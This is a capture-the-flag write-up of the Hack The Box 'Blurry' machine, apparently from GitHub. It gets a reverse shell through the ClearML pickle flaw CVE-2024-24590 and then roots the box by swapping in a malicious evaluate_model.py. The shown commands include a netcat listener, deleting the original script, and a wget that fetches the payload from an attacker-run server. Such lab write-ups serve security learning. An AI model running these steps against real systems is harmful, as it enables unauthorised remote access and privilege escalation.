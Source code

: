 # Blurry Writeup

# Intro
Blurry is an interesting HTB machine where you will leverage the CVE 2024-24590 exploit to pop a reverse shell in order to escalate your privileges within the local system. This box uses ClearML, an open-source machine learning platform that allows its users to streamline the machine learning lifecycle. ClearML is used by many Data Engineers and Data Scientist.

Below you can find of the tools that I used to complete this challenge
1. Kali Linux: An operating system that specializes in penetration testing.
2. Nmap: An open-source tool for network exploration, along with security auditing
3. Clearml python libraries: These libraries are used to interact with the open-source ClearML that we plan to hack into. I will go more into these libraries within the writeup.

I will go into detail regarding the steps taken. We will go over the initial reconnaissance, identifying avenues of exploitation, exploitation foothold, then post exploitation.

### Initial Reconnaissance
As with any initial penetration test, we will start with a nmap scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -v -sV -sC -p- 10.10.11.19                               
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-favicon: Unknown favicon MD5: 2CBD65DC962D5BF762BCB815CBD5EFCC
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: ClearML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

}
```

We see that we have ports 22 and 80 open. Also, that that it is a Linux machine. To get more info, we will visit the page at blurry.htb or 10.10.11.19 within the web browser.


![appblurryhtb login](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/bf5b7bc6-a7f4-4fb8-ba1f-4367812385b5)


Here we are able to make a user name of our choosing and log into ClearML. You will be greeted with a page regarding instructions of how to use clear ML along with creating your own credentials.

To do so, we will need to pip install the clearml libraries via the instructions below.

![credentials](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/a2029720-dcc0-4de9-ae8a-5b35b59ee2af)



One thing to note, to be sure that the libraries are installed correctly, I ran a pip install command on the following:

```bash
pip install clearml
pip install clearml-init
pip install clearml-agent
```
For some reason the original pip install ClearML did not properly install the clearml-init and clearml-agent for me. If you run into issues, I recommend retying to pip install these.


### Avenues of Exploitation

After playing around with the website, and researching, I found that ClearML has a vulnerability (CVE2024-24590). This vulnerability can allow a user to run commands via the pickle python library.

The pickle library is used by many python users. The uses range from data transfer, saving a program state, or caching. From my experience as a data analyst/data scientist, the pickle library has many uses.

However, in this case, we will use it as an exploit. Below is the python payload that I used.

![image](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7d527fcd-1162-4f90-9172-747763d35ece)



### Exploitation Foothold

After the payload is created, we will run the following command. This will start the ClearML agent to upload our malicious code to the ClearML site.

```bash
clearml-agent daemon --queue default
```

After this is ran, we will set up a listener (I put my listener on port 4444)

```bash
nc -lvnp 4444
```

Then execute the python payload

```bash
python3 <your python file payload>.py
```

NOTE: At least in my case, it took a while for me to establish a connection. I recommend getting a cup of coffee and coming back. After, you should see that we that we have a reverse shell.

![reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/b403c153-9b87-4527-9fc2-e7547d2e6af2)


### Post Exploitation

Now we are in the system and have gained a foothold. It is good practice to see who we are, and if the user we are logged into has any root permissions. 

As seen below, we are the user jippity and they are able to run sudo privileges on the file path /user/bin/evaluate_model /models/*.pth. This means that we are able to run sudo level commands in this directory.

![root permissions](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ab4bc222-3ff4-4fb3-b4b4-60f91938307d)


Before we do that, we can explore the directory to find the user flag. You should be able to find it easily as you navigate through the user files.

![userflag](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/721c2932-9a6a-49d3-b8e3-6ba81fed24ee)


After we get the userflag, our next target is the root flag. Since we know that the user we are logged in as (jippity) has sudo privileges specified in the file path above, we can navigate to the /models directory and see what is in there.

As we will see, they have two files, demo_model.pth and evaluate_model.py. Since we know that we can run sudo privileges, we can create a malicious python script to execute and escalate our privileges. We will do this by popping a reverse shell. Below is the python script I created to do so.

![evaluate_model python reverseshell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/736ec370-0133-4e3e-85f4-0fa073cd456a)


I named this file evaluate_model.py. The reason why is because we are tricking the system into thinking that it is running the original evaluate_model.py that is within the /models directory. However, it will be running the code above instead.

After we created our second payload, we will remove the original evaluate_model.py
```bash
rm /models/evaluate_model.py
```

Once that is removed, we will set up a simple python server on our attacking machine to upload the malicious python file.

```bash
python -m http.server <port of your choosing>
```

Then we will use wget to upload the file within the victim machine in the /models directory. NOTE: In your attacking machine, you will need to be in the directory where you have your malicious python file is.

```bash
wget http://<your ip>:<your port>/<malicious.py> -O evaluate_model.py
```

After, we should see that the script was successfully uploaded. Now we will set up a netcat listener

![reverse shell root](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/3ce4a8bf-1a75-4f22-995e-22613e9743ba)



Now we will execute the script within the models directory with the following command.

```bash
sudo /usr/bin/evaluate_model /models*.pth
```
![sudo command](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/2d580148-49a5-4d90-bf4f-81d8fdfb8355)

At last, we are logged in as root.

![root reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ceb961b6-bf77-400c-b644-eec87db80749)

From here, we can explore directories as root, and we can cat the root.txt file to get the root flag.

![rooted](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7f4a980e-eb49-4cce-9106-518bd9062457)


This was an extremely interesting HTB challenge as this focuses on exploiting ML tools that are continuing to be put on the market at an ever-evolving rate. This is a fantastic exercise in highlighting potential vulnerabilities and how we can combat them.

If you have any questions, feel free to reach me on LinkedIn.





